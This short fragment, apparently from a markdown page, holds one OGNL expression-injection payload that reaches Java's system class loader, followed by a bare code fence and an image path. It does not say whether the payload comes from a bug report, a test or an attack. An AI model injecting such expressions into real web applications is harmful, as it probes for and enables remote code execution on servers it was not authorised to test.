  %{@java.lang.ClassLoader@getSystemClassLoader().*}
  ```
  